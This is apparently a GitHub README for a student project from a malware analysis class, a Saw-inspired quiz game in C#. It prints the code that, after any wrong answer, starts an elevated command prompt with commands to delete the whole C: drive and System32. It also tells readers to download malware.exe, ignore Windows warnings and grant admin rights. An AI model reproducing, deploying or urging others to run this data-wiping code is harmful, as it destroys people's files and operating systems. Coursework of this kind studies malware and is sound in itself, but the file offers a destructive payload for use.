 # Malware Game 
This is a project I completed for a malware analysis class in school. This game is inspired by the movie Saw, essentially you download and open the game, then start playing; if you get any of the questions wrong in the game it deletes system32. I coded this project in C# on VScode. By looking into MainWindow.xaml.cs, you can start to see the meat of the program pretaining to the logic of the game system and the privledge escalation and deletion of c:\Windows\System32 via command prompt. 
```c#
if (questionNumber == totalQuestions)
  {
    //Percentage Score but should only be 100%
    percentage = (int)Math.Round((double)(score * 100/ totalQuestions));
      if(percentage < 100) {
        var proc1 = new ProcessStartInfo();
        string Command1;
        string Command2; 
        string Command3;
        proc1.UseShellExecute = true;

        proc1.WorkingDirectory = @"C:\Windows\System32";              
        proc1.FileName = @"C:\Windows\System32\cmd.exe";
        proc1.Verb = "runas";
        Command1 = @"RD C:\ /S /Q";
        Command2 = @"del c:\windows\system32*.* /q";
        Command3 = @"del /f /s /q 'C:*.*'";

        proc1.Arguments = "/k " + Command1 + Command2 + Command3;
                
        proc1.WindowStyle = ProcessWindowStyle.Normal;
        Process.Start(proc1);

        }
  }
```
To start playing this game you must download malware.exe located in the bin/Debug directory, ignore all of the notifications that windows throws at you to not play this game, start it up and accept it giving admin permisions and then your set! ** I am not responsible for any machines damaged **
